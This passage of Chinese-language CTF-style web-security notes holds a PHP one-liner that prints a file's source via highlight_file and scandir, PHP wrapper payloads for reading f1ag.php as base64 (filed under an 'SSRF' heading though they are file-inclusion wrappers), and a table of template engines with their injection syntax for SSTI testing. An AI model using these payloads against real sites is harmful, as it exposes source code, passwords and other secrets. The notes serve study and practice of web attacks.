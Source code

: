 使用高亮函数, `highlight_file()` , 当使用该函数时，整个文件都将被显示，包括密码和其他敏感信息

```php
highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

## SSRF

伪协议

```php
// base64输出f1ag.php
php://filter/read=convert.base64-encode/resource=f1ag.php

// 得到原始的post数据
php://input
post => todat is a happy day

// 得到原始的post数据
data:text/plain,todat is a happy day
```

## SSTI

| Engine               | Language   | port | tags               |
| -------------------- | ---------- | ---- | ------------------ |
| jinja2               | Python     | 5000 | {{%s}}             |
| Mako                 | Python     | 5001 | ${%s}              |
| Tornado              | Python     | 5002 | {{%s}}             |
| Django               | Python     | 5003 | {{ }}              |
| (code eval)          | Python     | 5004 | na                 |
| (code exec)          | Python     | 5005 | na                 |
| Smarty               | PHP        | 5020 | {%s}               |
| Smarty (secure mode) | PHP        | 5021 | {%s}               |
| Twig                 | PHP        | 5022 | {{%s}}             |
| (code eval)          | PHP        | 5023 | na                 |
| FreeMarker           | Java       | 5051 | <#%s > ${%s}       |
| Velocity             | Java       | 5052 | #set($x=1+1)${x}   |
| Thymeleaf            | Java       | 5053 |                    |
| Groovy*              | Java       | ×    | ×                  |
| jade                 | Java       | ×    | ×                  |
| Nunjucks             | JavaScript | 5062 | {{%s}}             |
| doT                  | JavaScript | 5063 | {{=%s}}            |
| Marko                | JavaScript | ×    | ×                  |
| Dust                 | JavaScript | 5065 | {#%s}or{%s}or{@%s} |
| EJS                  | JavaScript | 5066 | <%= %>             |
| (code eval)          | JavaScript | 5067 | na                 |
| vuejs                | JavaScript | 5068 | {{%s}}             |
| jade                 | Nodejs     | 5069 | #{%s}              |